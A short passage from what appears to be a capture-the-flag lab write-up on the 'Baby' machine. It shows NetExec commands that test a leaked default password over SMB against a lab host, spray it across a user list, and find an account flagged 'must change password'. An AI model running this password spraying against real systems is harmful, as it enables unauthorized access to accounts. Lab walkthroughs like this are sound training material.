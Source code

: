 ```bash
nxc smb 10.10.101.17 -u 'Teresa.Bell' -p 'BabyStart123!'
```

![image.png](/assets/Images/VL_Baby/image%204.png)

We can always try to spray password on all the user name which we have

and in one of the account you will find this, i got this while spraying password 

```bash
nxc smb 10.10.101.17 -u users.txt -p 'BabyStart123!' 
```

![image.png](/assets/Images/VL_Baby/image%205.png)

The `STATUS_PASSWORD_MUST_CHANGE` response from SMB indicates that the account you're using (`Caroline.Robinson`) has **"User must change password at next logon"** enabled.

```bash
nxc smb 10.10.101.17 -u Caroline.Robinson -p 'BabyStart123!' 
```

![image.png](/assets/Images/VL_Baby/image%206.png)
